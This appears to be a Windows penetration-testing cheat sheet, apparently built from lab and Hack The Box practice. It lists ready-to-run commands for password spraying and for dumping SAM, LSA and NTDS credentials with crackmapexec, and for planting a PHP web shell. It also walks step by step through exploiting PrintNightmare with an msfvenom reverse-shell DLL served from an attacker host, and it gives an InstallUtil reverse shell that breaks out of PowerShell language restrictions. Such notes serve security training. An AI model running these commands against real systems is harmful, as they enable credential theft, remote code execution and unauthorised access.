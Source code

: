 
### Pass The Password
- `crackmapexec smb 10.0.3.0/24 -u fcastle -d DOMAIN -p Password1`
- `crackmapexec smb 192.168.220.240 -u 'guest' -p ''`
- `crackmapexec smb 192.168.220.240 -u '' -p '' --shares`
- `crackmapexec smb 192.168.220.240 -u '' -p '' --sam`
- `crackmapexec smb 192.168.220.240 -u '' -p '' --lsa`
- `crackmapexec smb 192.168.220.240 -u '' -p '' --ntds`


### Apache lateral movement
- If you have logged in with an user, and you see the apache user, you might try to move laterally and from that user try to escalate
- check if you have write access to 'C:\xampp\htdocs' with `echo testwrite > testdoc.txt`
- if you have write privileges, download a cmd.php shell and check who the user is. If it's apache, do a reverse shell


### Read data stream

maybe you are in a directory where there is something strange

1. use `dir /r`
   you might find files like the following
   ```
   hm.txt
   hm.txt:root.txt:$DATA
   ```
2. Use the following command
   `powershell Get-Content -Path "hm.txt" -Stream "root.txt"`
- See Hack The Box - Jeeves


### PrintNightmare
- `impacket-rpcdump @10.10.108.190 | egrep 'MS-RPRN|MS-PAR'`. See: https://github.com/cube0x0/CVE-2021-1675#scanning
    1. `msfvenom -p windows/x64/meterpreter/shell_reverse_tcp LHOST=10.18.110.121 LPORT=447 -f dll > shell.dll`
    2. `sudo impacket-smbserver -smb2support share /home/kali/Downloads/`
    4. Set a listener: `msfconsole -q`, `use multi/handler`
    3. `python3 '/home/kali/Documents/windows-attack/CVE/PrintNightmare/CVE-2021-1675/CVE-2021-1675.py' VULNNET/enterprise-security:'sand_0873959498'@10.10.198.52 '\\10.18.110.121\share\shell.dll'`
  - For just a Priv Esc, use https://github.com/calebstewart/CVE-2021-1675
- See: https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/printnightmare


### Bypass CLM / CLM breakout | CLM / AppLocker Break Out
- Verify that you are in a contained enviorment with
  - `$executioncontext.sessionstate.languagemode`
  - `Get-AppLockerPolicy -Effective -XML`
  - see https://0xdf.gitlab.io/2019/06/01/htb-sizzle.html
- https://github.com/padovah4ck/PSByPassCLM
- https://0xdf.gitlab.io/2019/06/01/htb-sizzle.html
- reverse shell: `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U /revshell=true /rhost=10.10.14.4 /rport=443 \users\amanda\appdata\local\temp\a.exe`
- Msbuild: https://pentestlab.blog/2017/05/29/applocker-bypass-msbuild/
           https://0xdf.gitlab.io/2019/06/01/htb-sizzle.html
